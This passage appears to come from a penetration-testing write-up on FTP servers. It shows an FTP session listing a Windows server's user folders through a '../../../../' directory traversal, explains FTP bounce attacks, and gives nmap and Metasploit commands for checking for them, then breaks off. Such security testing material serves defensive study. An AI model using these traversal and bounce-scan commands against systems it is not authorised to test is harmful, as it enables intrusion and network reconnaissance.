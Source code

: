 ```bash
drw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 WINDOWS
226 File sent ok
ftp> ls ../../../../Docume~1/
200 Port command successful.
150 Opening data connection for directory list.
drw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 .
drw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 ..
drw-rw-rw-   1 ftp      ftp            0 Sep 26  2015 Administrateur
drw-rw-rw-   1 ftp      ftp            0 Sep 23  2015 All Users
226 File sent ok
```

## FTP Bounce Vulnerability

The FTP server is vulnerable to FTP bounce attacks. This vulnerability allows an FTP client to instruct the FTP server to make an outbound data connection to any IP and port, rather than restricting outbound connections back to the client's IP address only. This can be used to map and port scan any networks visible to the FTP server, possibly including internal networks not directly accessible to the attacker.

![Untitled](/assets/img/pitcures/ftp/ftp5.png)

FTP bouncing is such a popular and easy to exploit reconnaissance attack that tools such as nmap include an FTP bounce scan option.

FTP Bounce Vulnerability Check Method

```bash
#Nmap Script:
nmap -sV --script ftp-bounce 10.10.x.x

#Metasploit Framework:
use auxiliary/scanner/portscan/ftpbounce
```

Lastly, you can check manually. If your FTP server is impacted from this vulnerability, you will have a result similar to the following:
